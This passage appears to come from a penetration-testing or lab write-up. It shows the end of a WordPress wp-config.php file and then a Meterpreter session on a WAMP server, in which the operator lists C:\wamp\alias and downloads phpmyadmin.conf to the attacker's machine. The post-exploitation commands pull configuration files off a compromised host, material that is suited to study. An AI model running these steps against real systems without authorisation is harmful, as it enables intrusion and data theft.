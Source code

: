 /**
 * For developers: WordPress debugging mode.
 *
 * Change this to true to enable the display of notices during development.
 * It is strongly recommended that plugin and theme developers use WP_DEBUG
 * in their development environments.
 *
 * For information on other constants that can be used for debugging,
 * visit the Codex.
 *
 * @link https://codex.wordpress.org/Debugging_in_WordPress
 */
define('WP_DEBUG', false);

/* That's all, stop editing! Happy blogging. */

/** Absolute path to the WordPress directory. */
if ( !defined('ABSPATH') )
        define('ABSPATH', dirname(__FILE__) . '/');

/** Sets up WordPress vars and included files. */
require_once(ABSPATH . 'wp-settings.php');
meterpreter > 






meterpreter > cd ../alias
meterpreter > ls
Listing: C:\wamp\alias
======================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  1488  fil   2021-10-28 19:48:52 +0530  httpd-dav.conf
<strong>100666/rw-rw-rw-  471   fil   2021-10-28 19:48:58 +0530  phpmyadmin.conf
</strong>100666/rw-rw-rw-  441   fil   2021-10-28 20:00:09 +0530  sqlbuddy.conf
100666/rw-rw-rw-  439   fil   2021-10-28 20:00:09 +0530  webgrind.conf

meterpreter > download phpmyadmin.conf 
[*] Downloading: phpmyadmin.conf -> /root/phpmyadmin.conf
[*] Downloaded 471.00 B of 471.00 B (100.0%): phpmyadmin.conf -> /root/phpmyadmin.conf
[*] download   : phpmyadmin.conf -> /root/phpmyadmin.conf
</code></pre>

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>
